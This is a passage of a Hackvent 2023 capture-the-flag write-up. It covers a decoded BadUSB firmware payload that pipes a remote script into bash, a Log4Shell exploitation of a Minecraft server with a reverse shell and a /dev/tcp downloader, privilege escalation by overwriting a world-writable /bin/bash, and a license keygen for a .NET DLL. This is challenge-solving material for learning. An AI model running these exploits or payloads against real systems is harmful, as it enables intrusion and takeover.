Keyboard Interaction: There is interaction with a Keyboard object, possibly simulating keyboard input.
```

give we know there is strings that would be on a terminal `base64 -d data > data_decoded` & `bash data_decoded`
looking at the keyboard interaction seems like the place to be which happens in this if statement.

```c
    if (cVar10 == '\0' && R13R12._1_1_ == '\0') {
      R25R24 = Serial;
      *(undefined2 *)(iVar8 + -1) = 0x723;
      Print::println(R25R24);
      R25R24._0_1_ = (String)0xd8;
      Z = (String *)&DAT_mem_0119;
      X = (String *)CONCAT11(Y._1_1_ - (((byte)Y < 0x27) + -1),(byte)Y - 0x27);
      do {
        puVar6 = Z;
        puVar3 = X;
        Z = Z + 1;
        R0 = (String)*puVar6;
        X = X + 1;
        *puVar3 = R0;
        R25R24._0_1_ = (String)((char)R25R24._0_1_ + -1);
      } while (R25R24._0_1_ != (String)0x0);
      Z = (String *)CONCAT11(Y._1_1_ - (((byte)Y < 0x27) + -1),(byte)Y - 0x27);
      X = R17R16;
      R19R18._0_1_ = (byte)Y + 0xb1;
      R19R18._1_1_ = Y._1_1_ - (((byte)Y < 0x4f) + -2);
      R25R24 = (undefined1 *)0x6900;
      do {
        pbVar7 = (byte *)Z;
        pSVar4 = X;
        Z = (String *)((byte *)Z + 1);
        R25R24._0_1_ = (String)*pbVar7;
        R25R24._0_1_ = (String)((byte)R25R24._0_1_ ^ R25R24._1_1_);
        X = X + 1;
        *pSVar4 = R25R24._0_1_;
      } while ((byte)Z != (byte)R19R18 || Z._1_1_ != (char)(R19R18._1_1_ + ((byte)Z < (byte)R19R18))
              );
      Keyboard[13] = 0;
      Keyboard[12] = 0xac;
      R23R22 = (char *)R17R16;
      R25R24 = Keyboard;
      *(undefined2 *)(iVar8 + -1) = 0x748;
      Keyboard_::write(R25R24,(uint)R23R22);
      R23R22 = (char *)0x21b;
      R25R24 = Keyboard;
      *(undefined2 *)(iVar8 + -1) = 0x74e;
      Print::write((Print *)R25R24,R23R22);
      R25R24 = Keyboard;
      *(undefined2 *)(iVar8 + -1) = 0x754;
      Print::println(R25R24);
      R25R24 = Keyboard;
      *(undefined2 *)(iVar8 + -1) = 0x75a;
      Print::println(R25R24);
      bVar11 = (byte)Y < 'P';
      cVar10 = Y._1_1_ - (bVar11 + -2);
      bVar12 = SBORROW1(Y._1_1_,-2) != SBORROW1(Y._1_1_ + 2,bVar11);
      R0 = (String)((Y._1_1_ < 0xfe || (byte)(Y._1_1_ + 2) < bVar11) |
                    ((byte)((byte)Y + '\xb0') == '\0' && cVar10 == '\0') << 1 | (cVar10 < '\0') << 2
                    | bVar12 << 3 | (cVar10 < '\0' != bVar12) << 4 | (cVar13 == '\x01') << 5 |
                    (cVar14 == '\x01') << 6 | (cVar15 == '\x01') << 7);
      SREG = (byte)R0;
      iVar9 = CONCAT11(cVar10,(byte)Y + '\xb0');
      Y._1_1_ = *(undefined *)(iVar9 + 1);
      Y._0_1_ = *(undefined *)(iVar9 + 2);
      R17R16._1_1_ = *(undefined *)(iVar9 + 3);
      R17R16._0_1_ = *(undefined *)(iVar9 + 4);
      R15R14._1_1_ = *(undefined *)(iVar9 + 5);
      R15R14._0_1_ = *(undefined *)(iVar9 + 6);
      R13R12._1_1_ = *(undefined *)(iVar9 + 7);
      R13R12._0_1_ = *(undefined *)(iVar9 + 8);
      R11R10._1_1_ = *(undefined *)(iVar9 + 9);
      R11R10._0_1_ = *(undefined *)(iVar9 + 10);
      return R25R24;
    }
```

and ChatGPT says

```

This section of the code appears to involve a combination of keyboard manipulation, printing, and possibly some serial communication. Let's break it down:

Moving Data and Initialization:

assembly
Copy code
movw Z, Y
subi Zlo, 0x27
sbci Zhi, 0xff
movw X, R17R16
movw R19R18, Y
subi R18, 0x4f
sbci R19, 0xfe
ldi R25, 0x69
These instructions involve moving data between registers (Z, X, R17R16, R19R18, and R25) and initialization of R25 with the value 0x69.

Data Processing Loop:

assembly
Copy code
LAB_code_0735:
ld R24, Z+
eor R24, R25
st X+, R24
cp Zlo, R18
cpc Zhi, R19
brbc LAB_code_0735, Zflg
This looks like a loop that processes data pointed to by Z using XOR (eor) with the value in R25 and then stores the result in the memory location pointed to by X. The loop continues until a specific condition (Zflg is clear) is met.

Keyboard Array Manipulation:

assembly
Copy code
ldi R24, 0xac
ldi R25, 0x0
sts Keyboard[13], R25
sts Keyboard[12], R24
This section sets specific values in the Keyboard array at indices 12 and 13.

Function Calls - Keyboard and Print:

assembly
Copy code
ldi R22, 0x1b
ldi R23, 0x2
ldi R24, 0x34
ldi R25, 0x3
call Keyboard_::write
assembly
Copy code
ldi R22, 0x6d
ldi R23, 0x2
ldi R24, 0x34
ldi R25, 0x3
call Print::write
assembly
Copy code
ldi R22, 0x8b
ldi R23, 0x2
ldi R24, 0x34
ldi R25, 0x3
call Print::println
These lines involve function calls, presumably to functions named Keyboard_::write, Print::write, and Print::println. The parameters for these calls are loaded into registers before the function calls.
```

so, I back tracked to 
`Z = (String *)&DAT_mem_0119;` looked at the values at `.data_0119` converted to a `char[216]` copied the bytes and put it in [cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'Hex','string':'69'%7D,'Standard',false)&input=MGMgMGEgMDEgMDYgNDkgMGQgNWIgMGQgMDUgMGQgMmEgMmIgMDYgMGQgMjEgM2IgMWUgMGEgMTMgMDYgMWYgMjUgNWIgMGQgMTkgMGEgNWEgMzggMWMgMzMgNWIgMDUgNTkgMDggMjEgM2YgMDAgMGQgMzEgMjcgMDUgMGEgMDQgMjcgMWYgMGIgMDcgM2IgMDUgMGIgMDcgMzggMWMgMzAgNWIgNTAgMWQgMjUgNWIgMGQgMTkgMzAgM2UgNWMgMWIgMGIgMjEgM2YgMDcgMjUgMTMgMzMgMDIgMzAgM2QgMzAgMTMgMzAgM2QgMjggNWEgMjcgMmUgM2MgNWIgMjcgMDMgMjMgMDIgMjYgMmQgMzAgMTAgMjQgM2UgMzggMTEgMjQgNWIgMzMgMDQgMjcgNWIgMmYgMDQgMzAgMTMgMGEgNTkgMzMgMmUgM2MgMTEgMjUgNWEgMjMgMDEgMGQgMTAgNTEgNTggMzMgMDMgMzAgNTggMjYgMmQgMDIgMTAgMjYgM2QgMjMgMDEgMjcgM2UgMjQgMTEgMzMgMDMgMjQgNWEgMjcgMmQgMjcgMDIgMjcgMmUgMzggMWUgMzMgMDMgMzAgMTAgMjQgMDQgMjcgMDUgMjYgMmQgMjMgMDUgMjYgMmQgMjggNWMgMjYgMmUgMmYgMDEgMjQgMmQgMjQgNWQgMjUgNWIgMDEgMWYgMGIgM2UgM2YgNWEgMGIgNWEgMjMgMWIgMjUgMDcgM2IgNWQgMGQgMmEgMjggMWQgM2QgMTAgMjggMWQgMjAgMjEgMWUgMGUgMzAgMDQgMmYgMTMgMDggMjggMDYgNTQgNDkgNTcgNDkgMGQgMDggMWQgMDg) perform the `XOR` against `0x69` and we get `echo d2dldCBodHRwczovL2dpc3QuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2dpYW5rbHVnLzZkYTYzYTA3NGU2NjJkODYyMWQxM2ZmN2FmYzc0ZGUxL3Jhdy81ZjY1ODkyOTJhNWMxZjM3NDNkNGQwZjYyMmNlODJlODA5OGFhMDM4L2hvbWV3b3JrLnR4dCAtTyAtIHwgYmFzaAo= > data`

which I guess is to be emulated on a keyboard.

so, let’s convert it from [`base64`](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=ZDJkbGRDQm9kSFJ3Y3pvdkwyZHBjM1F1WjJsMGFIVmlkWE5sY21OdmJuUmxiblF1WTI5dEwyZHBZVzVyYkhWbkx6WmtZVFl6WVRBM05HVTJOakprT0RZeU1XUXhNMlptTjJGbVl6YzBaR1V4TDNKaGR5ODFaalkxT0RreU9USmhOV014WmpNM05ETmtOR1F3WmpZeU1tTmxPREpsT0RBNU9HRmhNRE00TDJodmJXVjNiM0pyTG5SNGRDQXRUeUF0SUh3Z1ltRnphQW89)
and we get 
`wget https://gist.githubusercontent.com/gianklug/6da63a074e662d8621d13ff7afc74de1/raw/5f6589292a5c1f3743d4d0f622ce82e8098aa038/homework.txt -O - | bash
`
we go to that link 
```bash
#!/bin/bash
wget https://gist.githubusercontent.com/gianklug/5e8756afc93211b15fe995f469add994/raw/5d5b86307181309c4bbbe021c94d75b9e07e6f8c/gistfile1.txt -O - | base64 -d > cat.png
```

oh, it’s a cat PNG, let’s just put it in [aperisolve](https://www.aperisolve.com/d541ecca55e6dfb48ca174d345213f68) and woo Zsteg finds something for us.

```
Zsteg
meta Comment .. text: "HV23{4dru1n0_1s_fun}"
```

#### FLAG
    HV23{4dru1n0_1s_fun}

## [HV23.19] Santa's Minecraft Server {hard, linux, pentest}

### Description
Santa likes to play Minecraft. His favorited version is 1.16. For security reasons, the server is not publicly accessible. But Santa is a little show-off, so he has an online map to brag about his fabulous building skills.

Please wait at least 1 minute for the Docker to start

Start the Docker and get the flag!
### Solution

hmm Minecraft and we have the version. obviously let’s see if we can find some publicly known vulns, so I googled `Minecraft 1.16 vulnerabilities` and we get https://nodecraft.com/blog/service-updates/minecraft-java-edition-security-vulnerability

it’s a `log4shell` challenge. So, I set up the `VPN` and try some PoC code that we can find on `GitHub` [log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)

downloaded the required java, setup a listener and ran the exploit.

```sh
bread@bread-x64:/tmp/log4j-shell-poc$ python3 poc.py --userip 10.13.0.6 --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] GitHub repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.13.0.6:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.13.0.6:8000/Exploit.class
152.96.15.3 - - [23/Jan/2024 14:26:09] "GET /Exploit.class HTTP/1.1" 200 -
```

and we got a shell
```sh
bread@bread-x64:/CTFS/HV23$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 152.96.15.3 40250
uid=101(server) gid=65534(nogroup) groups=65534(nogroup)
ls -la
total 52568
drwxr-xr-x. 1 server root        4096 Jan 23 03:25 .
drwxr-xr-x. 1 root   root          20 Dec 18 21:17 ..
-rwxrwxrwx. 1 server root          70 Dec 10 22:13 .console_history
drwxr-xr-x. 2 server nogroup       40 Jan 23 03:25 .oracle_jre_usage
-rwxrwxrwx. 1 server root           2 Jan 23 03:25 banned-ips.json
-rwxrwxrwx. 1 server root           2 Jan 23 03:25 banned-players.json
-rwxrwxrwx. 1 server root        1207 Jan 23 03:25 bukkit.yml
drwxrwxrwx. 1 server root          80 Dec 10 22:50 cache
-rwxrwxrwx. 1 server root         598 Jan 23 03:25 commands.yml
-rwxrwxrwx. 1 server root         250 Nov 22 20:23 eula.txt
-rwxrwxrwx. 1 server root        2576 Nov 22 20:23 help.yml
drwxr-xr-x. 2 server nogroup       24 Jan 23 03:25 logs
-rwxrwxrwx. 1 server root           2 Jan 23 03:25 ops.json
-rwxrwxrwx. 1 server root    53753630 Dec 10 22:49 paper-1.16.5-790.jar
-rwxrwxrwx. 1 server root       10551 Jan 23 03:25 paper.yml
-rwxrwxrwx. 1 server root           0 Nov 22 20:23 permissions.yml
drwxrwxrwx. 1 server root          20 Dec 10 22:16 plugins
-rwxrwxrwx. 1 server root        1197 Jan 23 03:25 server.properties
-rwxrwxrwx. 1 server root        4601 Jan 23 03:25 spigot.yml
-rwxrwxrwx. 1 server root           2 Jan 23 03:25 usercache.json
-rwxrwxrwx. 1 server root          86 Dec 10 22:50 version_history.json
drwxrwxrwx. 1 server root          18 Nov 22 20:23 versions
-rwxrwxrwx. 1 server root           2 Nov 22 20:23 whitelist.json
drwxrwxrwx. 1 server root          68 Dec 10 22:53 world
cd /
ls -la
total 4
drwxr-xr-x.   1 root root   28 Jan 23 03:25 .
drwxr-xr-x.   1 root root   28 Jan 23 03:25 ..
-rwxr-xr-x.   1 root root    0 Jan 23 03:25 .dockerenv
drwxr-xr-x.   1 root root   20 Dec 18 21:17 app
drwxr-xr-x.   1 root root   18 Dec 18 21:17 bin
drwxr-xr-x.   2 root root    6 Sep  3  2022 boot
drwxr-xr-x.   5 root root  340 Jan 23 03:25 dev
drwxr-xr-x.   1 root root   66 Jan 23 03:25 etc
drwxr-xr-x.   1 root root   19 Dec 18 21:17 home
drwxr-xr-x.   1 root root   41 Dec 18 21:17 lib
drwxr-xr-x.   2 root root   34 Nov 20 00:00 lib64
drwxr-xr-x.   2 root root    6 Nov 20 00:00 media
drwxr-xr-x.   2 root root    6 Nov 20 00:00 mnt
drwxr-xr-x.   2 root root    6 Nov 20 00:00 opt
dr-xr-xr-x. 525 root root    0 Jan 23 03:25 proc
drwx------.   2 root root   37 Nov 20 00:00 root
drwxr-xr-x.   3 root root   30 Nov 20 00:00 run
drwxr-xr-x.   1 root root   18 Dec 18 21:17 santas-workshop
drwxr-xr-x.   2 root root 4096 Nov 20 00:00 sbin
drwxr-xr-x.   2 root root    6 Nov 20 00:00 srv
dr-xr-xr-x.  13 root root    0 Nov 19 13:28 sys
drwxrwxrwt.   1 root root   76 Jan 23 03:25 tmp
drwxr-xr-x.   1 root root   56 Nov 20 00:00 usr
drwxr-xr-x.   1 root root   41 Nov 20 00:00 var
cd /santas-workshop
ls -la
total 24
drwxr-xr-x. 1 root  root    18 Dec 18 21:17 .
drwxr-xr-x. 1 root  root    28 Jan 23 03:25 ..
-rwsr-sr-x. 1 santa root 16752 Dec 18 21:17 tool
-rwxrwxrwx. 1 root  root   467 Dec 11 21:10 tool.c
ls -la tool.c
-rwxrwxrwx. 1 root root 467 Dec 11 21:10 tool.c
cat tool.c
#include <unistd.h>
#include <stdio.h>

void debugShell() {
        printf("Launching debug shell...\n");
        char *argv[] = { "/bin/bash", 0 };
        execve(argv[0], &argv[0], NULL);
}

void main() {
        printf("--- Santas Workshop Tool ---\n");
        printf("Pick an action:\n");
        printf("s) debug shell\n");
        printf("-- more options to come\n");

        char option;
        scanf("%c", &option);

        switch (option) {
        case 's': debugShell(); break;
        default: printf("Unknonwn option!\n"); break;
        }
}
```

my initial poking around yielded the `/santas-workshop` folder as something of interest.
and I though here we go this will be some kind of difficult priv-esc with some strange input to control the `sguid`
but on reviewing the code it looked to easy.

```sh
server@4cf7f1dd-fd49-497d-a3bf-623e12a38df6:/santas-workshop$ ./tool  
./tool
--- Santas Workshop Tool ---
Pick an action:
s) debug shell
-- more options to come
s
s
Launching debug shell...
bash-4.2$ whoami
whoami
server
bash-4.2$ exit
exit
exit
server@4cf7f1dd-fd49-497d-a3bf-623e12a38df6:/santas-workshop$ 
```

hmmm ok nothing. that’s odd, I’m pretty sure I know how sguid works so that should be fine.
So, I asked ChatGPT, 
```
If the tool binary is owned by user santa and has the setuid bit set, when it executes, it will temporarily run with the permissions of the owner (user santa in this case). However, if the executed shell (/bin/bash in this case) is unable to inherit the effective user ID (euid) due to security mechanisms (such as disabling setuid for scripts), the setuid might not work as expected.

Here are a few steps you can take to troubleshoot:

Check Shell Capabilities:
Ensure that /bin/bash has the setuid bit set. You can do this using the ls command:

bash
ls -l /bin/bash
The output should show something like -rwsr-xr-x. If the 's' is missing, the setuid bit might not be properly set.
```

I don’t know about that but I tried it out and it doesn’t match what it says, and well didn’t think it would.
`
<3bf-623e12a38df6:/santas-workshop$ ls -la /bin/bash                         
-rwxrwxrwx. 1 root root 959120 Dec 10 19:58 /bin/bash
`

So, I went to old faithful, `linpeas.sh` 
but this server didn’t have `curl` or `wget` so I found a solution to use bash functions.

```bash
function __curl() {
  read -r proto server path <<<"$(printf '%s' "${1//// }")"
  if [ "$proto" != "http:" ]; then
    printf >&2 "sorry, %s supports only http\n" "${FUNCNAME[0]}"
    return 1
  fi
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [ "${HOST}" = "${PORT}" ] && PORT=80

  exec 3<>"/dev/tcp/${HOST}/$PORT"
  printf 'GET %s HTTP/1.0\r\nHost: %s\r\n\r\n' "${DOC}" "${HOST}" >&3
  (while read -r line; do
   [ "$line" = $'\r' ] && break
  done && cat) <&3
  exec 3>&-
  ```

  I copy and pasted that, setup my http server and got myself `linpeas`
  `  server@4cf7f1dd-fd49-497d-a3bf-623e12a38df6:/tmp$ __curl http://10.13.0.6:9000/linpeas.sh > linpeas.sh`

after reading the output from `linpeas`
I noticed `/bin/bash` was marked as a 99% vector in `Interesting writable files`
```
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
/app/server
/bin/bash
/dev/mqueue
/dev/shm
/run/lock
/santas-workshop/tool.c
/tmp
/tmp/bash.bak
/tmp/hsperfdata_server
/tmp/hsperfdata_server/1
/tmp/libjansi-Paper-1896680233166858879.so
/tmp/linpeas.sh
/var/tmp
```

So, I thought all I have to do is replace `/bin/bash` with `/bin/sh` and it should keep the `sguid`.
but `sh -> /bin/dash` and `dash` doesn’t do it. So, I looked to see if bash scripts allow it and they don’t either (mentioned above from ChatGPT, lol).
So, I thought I’ll write my own program then in `C`. I checked to see if gcc was on the box so I didn’t have to keep my webserver on and it was so that’s handy.

```sh
server@4cf7f1dd-fd49-497d-a3bf-623e12a38df6:/tmp$ gcc
gcc
gcc: fatal error: no input files
compilation terminated.

server@4cf7f1dd-fd49-497d-a3bf-623e12a38df6:/tmp$ echo '#include <stdio.h>
> #include <stdlib.h>
> #include <unistd.h>
> 
> int main() {
>     // Set the real, effective, and saved user IDs to the desired user
>     if (setresuid(1000, 1000, 1000) == -1) {
>         perror("setresuid");
>         exit(EXIT_FAILURE);
>     }
> 
>     // File path
>     const char *file_path = "/home/santa/flag.txt";
> 
>     // Open and read the file
>     FILE *file = fopen(file_path, "r");
>     if (file == NULL) {
>         perror("fopen");
>         exit(EXIT_FAILURE);
>     }
> 
>     // Read and print the contents of the file
>     int ch;
>     while ((ch = fgetc(file)) != EOF) {
>         putchar(ch);
>     }
> 
>     // Close the file
>     fclose(file);
> 
>     return 0;
> }
>' > /tmp/test.c

server@4cf7f1dd-fd49-497d-a3bf-623e12a38df6:/tmp$ gcc /tmp/test.c
gcc /tmp/test.c
/tmp/test.c: In function 'main':
/tmp/test.c:7:9: warning: implicit declaration of function 'setresuid'; did you mean 'setreuid'? [-Wimplicit-function-declaration]
     if (setresuid(1000, 1000, 1000) == -1) {
         ^~~~~~~~~
         setreuid
server@4cf7f1dd-fd49-497d-a3bf-623e12a38df6:/tmp$ cp /tmp/a.out /bin/bash
cp /tmp/a.out /bin/bash

server@4cf7f1dd-fd49-497d-a3bf-623e12a38df6:/$ cd /santas-workshop
cd /santas-workshop

server@4cf7f1dd-fd49-497d-a3bf-623e12a38df6:/santas-workshop$ ./tool
./tool
--- Santas Workshop Tool ---
Pick an action:
s) debug shell
-- more options to come
s
s
Launching debug shell...
HV23{d0n7_f0rg37_70_upd473_k1d5}server@4cf7f1dd-fd49-497d-a3bf-623e12a38df6:/santas-workshop$ 
```

aaayyy nice one! didn’t think that was gonna be so easy.

#### FLAG
    HV23{d0n7_f0rg37_70_upd473_k1d5}

## [HV23.20] Santa's Candy Cane Machine {hard, RE}

### Description
As Santa wanted to start producing Candy Canes for this year’s christmas season, his machine wouldn't work anymore. All he got was some error message about an "expired license". Santa tried to get support from the manufacturer. Unfortunately, the company is out of business since many years.

One of the elves already tried his luck but all he got out of the machine was a .dll!

Can you help Santa license his Candy Cane machine and make all those kids happy for this year’s christmas?

If you're stuck, just relax and enjoy this image (this is not part of the challenge. It's only for eye candy, seriously) 93bae7b8-4944-4d43-afb2-1ea2da3f287f
### Solution

```sh
bread@bread-x64:/CTFS/HV23/day20$ file CandyCaneLicensing.dll 
CandyCaneLicensing.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```
ok we have our selves a `.net` so let’s open this in `dotPeek`

we have a `namespace CandyCaneLicensing` and 4 classes:
- `CandyCane` (contains most functions of interest)
- `CandyCaneBlock` (structure of a CandyCane object)
- `CandyCaneLicense` (some functions `UnixToDateTime` and `RangesAreValid` and `IsExpired` )
- `ProductLicense` (enums for `ProductNames` and `ProductTypes`)

we can see if you `Create()` a `CandyCaneLicense` it calls `DecodeBlock()` this takes a string as input stores output in a `CandyCaneBlock` and returns true if `IsValidTime` is passed for both  `Expiration` and `Generation` checks.
to get to this point we need to pass 3 checks.

1. !CandyCane.StringToArray(str, out arr)
2. !CandyCane.UnshuffleArray(arr)
3. !CandyCane.ArrayToBinary((IReadOnlyList<byte>) arr, out bin)

if we view the website, we can see 2 things we get given an out of date (`License is expired at 2022-12-31`) key `NCLC9-CYUCU-C5VCC-EPGTE-C8422` and we can update it.

so, we have 2 real options at this point. we either reverse how the key check functions are made as well as how the blocks are created or brute force a key.

let’s look at the 3 functions in depth to see which path is more approachable. actually, you know what we are given `BinaryToArray` in `CandyCane` so really, we only have 2 to look at if we want to reverse engineer this.
which means we could start with a completely valid `CandyCaneBlock`, seems like the intent of the challenge so let’s just do it. so, let’s look at basic restrictions on the `CandyCaneBlock`.

in the `RangesAreValid()` function we can see so simple checks that we can bypass by setting both expiration and generation to `time.now()` and by making product and type match the enums in `ProductLicense`.
Other than the `Shuffle` field the rest seem like they can be random.

so, putting this along with a converted `.Net` to `python` version of the `binary_to_array()` function we have something that we can have full control of `CandyCaneBlock` and get back to an array.

```py
from enum import Enum
from datetime import datetime
import struct

class ProductNames(Enum):
    CandyCaneMachine = 1
    CandyCaneMachine2000 = 2

class ProductTypes(Enum):
    Standard = 1
    Advanced = 2
    Premium = 3

class CandyCaneBlock(ctypes.Structure):
    _fields_ = [
        ("Expiration", ctypes.c_uint),
        ("Generation", ctypes.c_uint),
        ("Product", ctypes.c_byte),
        ("Flags", ctypes.c_byte),
        ("Count", ctypes.c_ushort),
        ("Random", ctypes.c_ushort),
        ("Type", ctypes.c_byte),
        ("Shuffle", ctypes.c_byte)
    ]
    def __init__(self, expiration, generation, product, flags, count, random, ptype, shuffle):
        self.Expiration = expiration
        self.Generation = generation
        self.Product = product
        self.Flags = flags
        self.Count = count
        self.Random = random
        self.Type = ptype
        self.Shuffle = shuffle
        self.binary = self.to_bytes()
        self.array = self.binary_to_array()

    def to_bytes(self):
        print(f"[+] to_bytes: {bytes(self)}")
        return bytes(self)
    
    def binary_to_array(self):
        arr = [0] * 25
        
        def process_chunk(b, i, s):
            num = (int(b[i]) << 32) | \
                  (int(b[i + 1]) << 24) | \
                  (int(b[i + 2]) << 16) | \
                  (int(b[i + 3]) << 8) | \
                  int(b[i + 4])
            
            for j in range(8):
                arr[s + j] = (num >> (35 - (5 * j))) & 0x1F

            return i + 5, s + 8

        i, s = 0, 0
        for _ in range(3):
            i, s = process_chunk(self.binary, i, s)
        print(f"[+] Binary to array: {arr}")
        return arr

now = int(datetime.now().timestamp())
ccb = CandyCaneBlock(now+10000,
                     now, 
                     ProductNames.CandyCaneMachine2000.value, 
                     0, 
                     0, 
                     0, 
                     ProductTypes.Premium.value, 
                     0)
```

```py
bread@bread-x64:/CTFS/HV23/day20$ python3 solve.py 
16
b'\xefM\xbce\xefM\xbce\x02\x01\x01\x00\x01\x00\x03\x01'
bytearray(b'\x1d\x1d\x06\x1b\x18\x19\x0f\x0f\t\x16\x1e\x06\n\x00\x10\x01\x00\x04\x00\x00\x02\x00\x00\x03\x00')
```

now we need to un-shuffle and get it back to a string.

let’s look at `unshuffle_array` and `compute_shuffle`

```py
    def compute_shuffle(self):
        num = 0

        for index in range(24):
            num += self.array[index] + self.shuffler[index]

        return num % 32
    
    def unshuffle_array(self):
        shuffle = self.compute_shuffle()
        index1 = self.array[24]

        if shuffle >= 32 or index1 >= 32:
            return False

        num_array = bytearray(25)
        candyMixHorizontal = self.candyMixHorizontals[index1]

        for index2 in range(24):
            num_array[index2] = candyMixHorizontal[self.array[index2]]

        candyMixVertical = self.candyMixVerticals[shuffle]

        for index3 in range(24):
            self.array[candyMixVertical[index3]] = num_array[index3]
```

just converting it to python makes some of it quite simple.
As we can see compute_shuffle is just the sum of 2 arrays mod 32 `(sum(arr) + sum(self.shuffler)) % 32`.
I could also skip calculating `sum(self.shuffler)` since its always the same, but meh.

when it comes to `unshuffle_array` we need to make `(sum(arr) + sum(self.shuffler)) % 32 == shuffle`.
So, we need to try all our shuffle options (0,32) and test until we find a match. to get `arr` we can combine index2 and index3 for loops and simplify the code and rather than retrieving the value, we need to get the `index()` because those are the value prior to shuffle that shuffle to our crafted array. without the `%` we could have gone direct to the horizontal and vertical mixes but testing 32 options is noting.

```py
    def unshuffle_array(self):
        # Now let’s find a valid shuffle
        for shuffle in range(32):
            unshuffled = [0]*25

            for i in range(24):
                unshuffled[self.candyMixVerticals[shuffle].index(i)] = self.candyMixHorizontals[self.array[24]].index(self.array[i])

            if shuffle == (sum(unshuffled) + sum(self.shuffler)) % 32:
                print(f"[+] shuffle: {shuffle}")
                print(f"[+] unshuffled array: {unshuffled}")
                return unshuffled
        return None
```

now we can just use the CandyMap to go from array to string, once again we get the index since we have the values and we can split the string ever 5 chars to add the `-`

```py
def array_to_string(self):
        output_str = ''.join(chr(self.candyMap.index(self.unshuffledarray[i])) for i in range(25))
        out = '-'.join(output_str[i:i+5] for i in range(0, len(output_str), 5))
        print(f"[+] Key: {out}\n")
        return out
```

full code.
```py
from enum import Enum
from datetime import datetime
import struct
import ctypes


class ProductNames(Enum):
    CandyCaneMachine2000 = 0
    CandyCaneMachine = 1
    
    
class ProductTypes(Enum):
    Standard = 0
    Advanced = 1
    Premium = 2

class CandyCaneBlock(ctypes.Structure):
    _fields_ = [
        ("Expiration", ctypes.c_uint),
        ("Generation", ctypes.c_uint),
        ("Product", ctypes.c_byte),
        ("Flags", ctypes.c_byte),
        ("Count", ctypes.c_ushort),
        ("Random", ctypes.c_ushort),
        ("Type", ctypes.c_byte),
        ("Shuffle", ctypes.c_byte)
    ]
    def __init__(self, expiration, generation, product, flags, count, random, ptype, shuffle):
        self.candyMap = [255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,0,1,2,3,4,5,6,7,255,255,255,255,255,255,255,8,9,10,11,12,13,14,15,255,16,17,18,19,20,255,21,22,23,24,25,26,27,28,29,30,31,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255]
        self.candyMixVertical00 = [23,9,22,21,11,15,13,16,17,4,10,3,19,7,18,1,5,6,20,12,2,0,14,8]
        self.candyMixVertical01 = [10,13,9,18,12,7,2,22,16,0,23,17,4,19,15,6,8,20,1,5,14,21,11,3]
        self.candyMixVertical02 = [21,6,19,15,5,0,17,18,3,22,7,16,8,14,1,23,9,10,11,12,13,4,2,20]
        self.candyMixVertical03 = [22,8,15,7,1,14,2,16,3,12,21,4,19,20,10,5,18,11,17,0,6,9,23,13]
        self.candyMixVertical04 = [18,19,1,2,6,20,5,14,23,22,21,17,8,4,10,11,3,9,0,7,16,12,13,15]
        self.candyMixVertical05 = [22,15,23,12,7,1,11,2,17,10,3,16,14,0,21,8,13,5,6,9,19,4,18,20]
        self.candyMixVertical06 = [11,18,21,8,20,23,17,3,2,22,7,10,0,4,1,19,13,9,12,5,16,6,15,14]
        self.candyMixVertical07 = [7,2,6,15,12,11,10,21,8,18,19,23,17,20,0,9,4,13,1,22,5,14,16,3]
        self.candyMixVertical08 = [16,4,20,15,1,8,0,2,17,5,3,12,10,18,7,21,23,6,9,13,22,19,14,11]
        self.candyMixVertical09 = [12,4,22,2,10,14,6,20,3,16,1,9,18,0,15,5,11,13,19,17,23,7,8,21]
        self.candyMixVertical0A = [0,16,6,13,7,15,17,23,21,22,4,19,1,9,11,20,8,3,12,2,14,5,10,18]
        self.candyMixVertical0B = [10,21,6,16,8,4,5,0,3,9,7,2,13,12,11,20,1,18,17,19,22,14,23,15]
        self.candyMixVertical0C = [19,6,17,13,8,1,4,21,2,11,7,9,5,16,14,10,0,12,20,23,3,22,15,18]
        self.candyMixVertical0D = [22,1,8,4,11,2,18,13,10,7,14,0,19,23,20,9,16,15,17,3,21,6,5,12]
        self.candyMixVertical0E = [20,18,3,19,4,6,0,15,13,17,16,22,9,23,14,2,12,1,10,8,7,11,21,5]
        self.candyMixVertical0F = [15,13,9,12,1,16,3,0,23,21,17,6,19,8,22,11,14,5,20,2,18,10,4,7]
        self.candyMixVertical10 = [13,18,4,14,9,19,2,5,16,17,10,3,7,15,21,20,8,22,11,23,1,6,0,12]
        self.candyMixVertical11 = [21,14,10,11,13,0,3,23,17,7,15,5,12,19,22,6,9,1,2,8,18,16,20,4]
        self.candyMixVertical12 = [17,22,0,20,8,12,15,13,10,2,9,14,11,4,5,18,19,16,23,1,21,6,7,3]
        self.candyMixVertical13 = [5,15,17,2,13,1,11,23,10,22,4,20,8,6,16,18,9,0,14,12,7,3,21,19]
        self.candyMixVertical14 = [1,6,22,14,3,21,4,17,2,0,9,13,10,11,23,16,15,7,19,18,8,12,5,20]
